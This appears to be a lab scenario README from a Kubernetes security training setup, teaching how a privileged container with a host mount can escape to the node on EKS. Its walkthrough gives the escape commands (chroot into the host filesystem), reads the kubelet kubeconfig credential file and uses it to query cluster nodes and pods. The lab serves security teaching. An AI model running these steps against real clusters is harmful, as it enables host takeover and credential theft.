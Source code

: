 # Scenario: Escape to the Host System

## Prerequisites

- Vision One Container Security
- Playground One EKS Cluster
- Playground One Scenarios
  - Running app: System Monitor

Ensure to have the EKS Cluster including the Scenarios up and running:

```sh
$ pgo --apply eks
$ pgo --apply scenarios
```

## Attribution

This scenario is based on [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/) but adapted to work an Playground One and EKS.

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

This scenario showcases the common misconfigurations and one of the error-prone security issues in Kubernetes, container environments, and the general security world. Giving privileges that are not required for things always makes security worse. This is especially true in the containers and Kubernetes world. You can also apply this scenario further and beyond the container to other systems and services based on the configuration and setup of the cluster environments and resources. In this scenario you will see a privileged container escape to gain access to the host system.

By the end of the scenario, you will understand and learn the following:

- Able to exploit the container and escape out of the docker container
- You will learn to test and exploit the misconfigured and privileged containers
- Learn about common misconfigurations and possible damage due to them for the containers, Kubernetes, and clusterized environments

## The story

Most of the monitoring, tracing, and debugging software requires extra privileges and capabilities to run. In this scenario, you will see a pod with extra capabilities and privileges including HostPath allowing you to gain access to the host system and provide Node level configuration to gain complete cluster compromise.

> ***Note:*** To get started with the scenario, navigate to `http://<loadbalancer_dns_system_monitor>`

## Goals

The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access.

> ***Tip:*** Gain access to the host system and obtain the node level kubeconfig file `/var/lib/kubelet/kubeconfig`, and query the Kubernetes nodes using the obtained configuration.

### Hints

<details>
<summary>Click here</summary>

*✨ Are you still in the container?*<br>

See the mounted file systems, also look the capabilities available for the container using capsh 🙌<br>
<br>
*✨ Escaped container?*<br>

You can recon the system, some interesting places to obtain the node level configuration are `/var/lib/kubelet/kubeconfig` and I hope you know how to query Kubernetes API for nodes? 🎉<br>

</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>

After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as `/host-system` is mounted.

```sh
$ capsh --print
```

```sh
$ mount
```

Now you can explore the mounted file system by navigating to the `/host-system` path

```sh
$ ls /host-system/
```

You can gain access to the host system privileges using `chroot`.

```sh
$ chroot /host-system bash
```

As you can see, now you can access all the host system resources like docker containers, configurations, etc.

Trying to use the docker client fails.

```sh
$ docker ps
```

```ascii
bash: docker: command not found
```

This does not work, since we're on a Kubernetes optimized node OS with no docker provided.

```sh
$ uname -a
```

```ascii
Linux system-monitor-6dfbdbb7d-w6mdv 5.10.184-175.749.amzn2.x86_64 #1 SMP Wed Jul 12 18:40:28 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```sh
$ cat /var/lib/kubelet/kubeconfig
```

```ascii
apiVersion: v1
kind: Config
clusters:
- cluster:
    certificate-authority: /etc/kubernetes/pki/ca.crt
    server: https://BD215DBE2E4127977439D904B2AD3307.gr7.eu-central-1.eks.amazonaws.com
  name: kubernetes
contexts:
- context:
    cluster: kubernetes
    user: kubelet
  name: kubelet
current-context: kubelet
users:
- name: kubelet
  user:
    exec:
      apiVersion: client.authentication.k8s.io/v1beta1
      command: /usr/bin/aws-iam-authenticator
      args:
        - "token"
        - "-i"
        - "playground-one-eks"
        - --region
        - "eu-central-1"
```

Sadly, there is no `kubectl` as well.

```sh
$ kubectl
```

```ascii
bash: kubectl: command not found
```

Trying to use the package manager `yum` will not solve the problem. But navigating to https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux will help:

```sh
$ cd
$ curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
$ chmod +x kubectl
```

Try to get the available nodes of our cluster:

```sh
$ ./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes 
```

```ascii
NAME                                            STATUS   ROLES    AGE   VERSION
ip-10-0-152-251.eu-central-1.compute.internal   Ready    <none>   56m   v1.25.11-eks-a5565ad
ip-10-0-169-117.eu-central-1.compute.internal   Ready    <none>   56m   v1.25.11-eks-a5565ad
```

Can you do more?

```sh
$ ./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get pods -A
```

```ascii
NAMESPACE           NAME                                               READY   STATUS    RESTARTS   AGE
goat                system-monitor-6dfbdbb7d-w6mdv                     1/1     Running   0          53m
kube-system         aws-load-balancer-controller-577dcc6f77-sqtfr      1/1     Running   0          92m
kube-system         aws-node-8wl6v                                     1/1     Running   0          92m
kube-system         aws-node-ksdjv                                     1/1     Running   0          92m
kube-system         cluster-autoscaler-6696cf9bff-2s52q                1/1     Running   0          92m
kube-system         coredns-6bcddfff7-hrwwl                            1/1     Running   0          92m
kube-system         coredns-6bcddfff7-kp266                            1/1     Running   0          92m
kube-system         ebs-csi-controller-7dffd5b9fd-2w7r8                6/6     Running   0          92m
kube-system         ebs-csi-controller-7dffd5b9fd-fdhfc                6/6     Running   0          92m
kube-system         ebs-csi-node-k77sx                                 3/3     Running   0          92m
kube-system         ebs-csi-node-vj6c7                                 3/3     Running   0          92m
kube-system         kube-proxy-62dls                                   1/1     Running   0          92m
kube-system         kube-proxy-mshz7                                   1/1     Running   0          92m
trendmicro-system   trendmicro-admission-controller-74d8d7f866-dv87r   1/1     Running   0          53m
trendmicro-system   trendmicro-oversight-controller-557df87c9-6c4dx    2/2     Running   0          69m
trendmicro-system   trendmicro-scan-manager-6ddb6f69b8-r85dk           1/1     Running   0          53m
trendmicro-system   trendmicro-scout-gkl4k                             2/2     Running   0          69m
trendmicro-system   trendmicro-scout-tz68w                             2/2     Running   0          69m
trendmicro-system   trendmicro-usage-controller-6944c5b55b-m8hgh       2/2     Running   0          53m
trendmicro-system   trendmicro-workload-operator-6cf5c98c6f-xq8bb      1/1     Running   0          69m
trivy-system        trivy-operator-57c774d7c4-hmnlk                    1/1     Running   0          53m
victims             java-goof-5878dd4dd-9lnst                          1/1     Running   0          53m
victims             web-app-854bdf944f-ddqcs                           1/1     Running   0          53m
```

```sh
$ ./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes 
```

```ascii
NAME                                            STATUS   ROLES    AGE   VERSION
ip-10-0-152-251.eu-central-1.compute.internal   Ready    <none>   76m   v1.25.11-eks-a5565ad
ip-10-0-169-117.eu-central-1.compute.internal   Ready    <none>   76m   v1.25.11-eks-a5565ad
```

🎉 Success 🎉

</details>
